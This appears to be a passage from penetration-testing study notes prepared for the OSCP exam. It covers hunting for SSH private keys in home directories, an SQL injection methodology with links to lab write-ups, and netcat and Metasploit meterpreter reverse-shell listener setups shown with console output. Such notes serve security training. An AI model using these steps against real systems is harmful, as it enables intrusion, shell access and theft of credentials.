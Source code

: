 > [!Tip]
> 
> if users with console login are found in `/etc/passwd`, try searching their home directories for ssh keys (e.g. `$HOME/.ssh/id_rsa`)

### 3.3. SQL injection

#### Methodology:

1. Identity query vulnerability
2. Identify injection vector
3. Identify number of columns (range) using `ORDER BY`
4. Identify data display positions in the page
5. Retrieve database/version/user information
6. Enumerate tables
7. Enumerate columns
8. Retrieve data

Examples (MySQL): [NullByte](https://github.com/joetanx/oscp/blob/main/vulnhub/nullbyte.md), [DC-9](https://github.com/joetanx/oscp/blob/main/vulnhub/dc-9.md), [DVWA SQL Injection](/notes/sqli-dvwa.md), [SQLi Labs](/notes/sqli-labs.md)
Example (Oracle Db): [CHRIS](https://github.com/joetanx/oscp/blob/main/pwk-lab/chris.md)
Example (Microsoft SQL): [DJ](https://github.com/joetanx/oscp/blob/main/pwk-lab/dj.md)

## 4. Shells

### 4.1. Listeners

#### Netcat

```sh
rlwrap nc -nlvp 4444
```

#### Meterpreter

```sh
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 4445
LPORT => 4445
msf6 exploit(multi/handler) > options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT     4445             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.
```